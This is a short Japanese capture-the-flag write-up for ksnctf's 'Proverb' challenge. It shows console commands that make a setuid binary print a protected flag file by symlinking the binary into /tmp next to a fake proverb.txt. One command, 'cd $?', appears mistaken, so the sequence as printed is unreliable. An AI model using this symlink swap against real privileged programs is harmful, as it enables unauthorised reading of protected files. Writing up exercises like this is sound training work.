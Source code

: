## [13. Proverb](http://ksnctf.sweetduet.info/problem/13)

SSHで入った先には以下のファイルが存在する。

```console
[q13@localhost ~]$ ls -l
total 28
-r-------- 16 q13a q13a    22 Jun  1  2012 flag.txt
---s--x--x 13 q13a q13a 14439 Jun  1  2012 proverb
-r--r--r--  1 root root   755 Jun  1  2012 proverb.txt
-r--r--r--  1 root root   151 Jun  1  2012 readme.txt
```

`proverb` を実行すると、`proverb.txt` からランダムに一行選び表示するようだ。
そこで、`proverb.txt` の代わりに `flag.txt` の中身を出力させればよいだろう。

とはいえ `proverb` は引数をとるような挙動はせず、また書き込み権限もない。
そこで、シンボリックリンクによって `proverb.txt` を `flag.txt` にすり替えることを試してみる。

```console
[q13@localhost ~]$ mkdir /tmp/q13-ans
[q13@localhost ~]$ cd $?
[q13@localhost ~]$ ln -s ~/proverb .
[q13@localhost ~]$ ln -s ~/flag.txt proverb.txt
[q13@localhost ~]$ ./proverb
```

これでflagを得る。
